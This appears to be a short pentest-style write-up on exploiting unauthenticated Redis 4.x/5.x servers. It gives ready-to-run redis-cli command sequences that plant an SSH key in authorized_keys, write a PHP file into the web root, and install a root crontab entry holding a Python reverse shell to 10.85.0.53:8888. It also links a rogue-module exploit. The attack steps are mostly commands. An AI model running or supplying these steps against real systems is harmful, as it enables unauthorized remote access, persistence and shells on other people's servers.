

Redis 4.x /5.x Unauthenticated Exploit
Overview
Redis is an open source, in-memory data structure store that acts as a database, cache, and message broker. It’s often used to speed up web applications by caching frequently accessed information in memory. The default port is 6379/tcp. There are three types of authentication: no credentials by default, password only, username:password. Redis versions 4.x / 5.x are vulnerable to the execution of arbitrary commands. Redis is often placed in internal network, so if it is an old version and exposed in public network without password protection, then it would be a disaster, but there are still many exposed Redis servers in real word. Attackers are able to get remote execution on redis through various methods. Here are some techniques for exploitation.
Exploitation
A common command-line tool for interacting with Redis is redis-cli
Install command:sudo apt-get install redis-tools
SSH
If we know a valid username or redis directory path, and target has ssh service open, we can write public key to file and then ssh to target.
https://github.com/iw00tr00t/Redis-Server-Exploit/tree/master
Exploit manually:
- We first generate an ssh key pair.
- Then write to the file. Note that
\n\nis needed here for split keys - Import public key to server by setting value
-
Get user’s ssh path with command
config get dirand set dir to ssh directoryCommon directories are
/var/lib/redis/.ssh/root/.ssh/home/redis/.ssh - Save and ssh to target with private key.
$ ssh-keygen -t rsa
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > pub.txt
$ cat pub.txt | redis-cli -h <IP> -x set ssh_key
$ redis-cli -h <IP>
> config set dir /var/lib/redis/.ssh
OK
> config set dbfilename "authorized_keys"
OK
> save
OK
Compile Redis Module
First we compile an exec module and then load this module when interacting with redis. We can execute arbitrary command and get reverse shell on target. This exploit has been tested on Redis 5.0.9 and works perfectly.
https://github.com/vulhub/redis-rogue-getshell
A full explanation of the command exec module can be found here.
https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

PHP Webshell
We can also upload webshell if we know web server’s path. Then we access http://<IP>/phpinfo.php
redis-cli -h 10.85.0.52
> config set dir /usr/share/nginx/html
// > config set dir /var/www/html
OK
> config set dbfilename phpinfo.php
OK
> set test "<?php phpinfo(); ?>"
OK
> save
OK
Crontab
We can write reverse shell payload to crontabs. Payloads can be found here. https://www.revshells.com/
$ echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h <IP> -x set 1
OK
$ redis-cli -h <IP>
> config set dir /var/spool/cron/crontabs/
// /var/spool/cron/ for centos
OK
> config set dbfilename root
OK
> save
OK